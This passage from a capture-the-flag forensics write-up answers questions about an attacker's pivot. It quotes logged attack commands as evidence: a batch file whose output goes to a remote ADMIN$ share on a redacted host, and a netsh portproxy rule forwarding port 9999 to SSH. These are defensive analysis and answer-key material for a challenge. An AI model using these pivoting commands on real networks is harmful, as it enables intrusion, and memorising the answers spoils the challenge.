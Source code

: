 **Answer:**  
`ATTACKER_IP_REDACTED`

**How it was found:**  
Timeline entries and parsed Event ID **4688** command lines show the attacker executed `proxy.bat`, which in turn called `netsh interface portproxy` to forward traffic. The `connectaddress` parameter in the `netsh` command indicates the internal target IP the attacker pivoted to — redacted here for privacy.

**Evidence:**
```text
# proxy.bat executed (sanitized)
C:\Windows\System32\cmd.exe cmd.exe /Q /c .\proxy.bat 1> \\ATTACKER_IP_REDACTED\ADMIN$\__1756076432.886685 2>&1

# netsh portproxy command (sanitized)
C:\Windows\System32\netsh.exe netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=9999 connectaddress=ATTACKER_IP_REDACTED connectport=22
```
![attacker_IP](/HTB-Holmes-CTF/arifacts/the_enduring_echo/eventd_4688_attackIP.png)

## Q11 – Which TCP port on the victim was forwarded to enable the pivot? (port 0-65535)

**Answer:**  
`9999`

**How it was found:**  
listenaddress=0.0.0.0 indicates the proxy listened on all IPv4 interfaces.
Incoming connections to 9999 on the compromised host were forwarded to the internal target (connectport 22), enabling SSH pivoting.

## Q12 – What is the full registry path that stores persistent IPv4→IPv4 TCP listener-to-target mappings? (HKLM......)
